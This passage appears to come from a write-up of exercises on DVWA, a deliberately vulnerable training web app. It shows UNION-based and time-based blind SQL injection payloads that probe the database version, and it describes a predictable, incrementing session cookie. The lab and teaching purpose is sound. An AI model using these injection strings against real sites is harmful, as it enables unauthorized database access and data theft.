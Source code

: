 ```
Surname: 

ID: ' UNION SELECT version() LIKE '10.1%', '
First name: 1
Surname:
```

### SQL Injection (Blind)

input

```bash
' UNION SELECT IF(version() LIKE '0%', SLEEP(1), ''), '
' UNION SELECT IF(version() LIKE '1%', SLEEP(1), ''), '
' UNION SELECT IF(version() LIKE '2%', SLEEP(1), ''), '
```

output

![alt text](images/photo_13.jpg)

![alt text](images/photo_14.jpg)

### Weak Session IDs

dvwaSession starts from 1. Each time the button is clicked session grows on one. dvwaSession connects with PHPSESSID.

output before the first click: dvwaSession doesn't exist

![alt text](images/photo_15.png)

output after the first click: dvwaSession = 1

![alt text](images/photo_16.png)

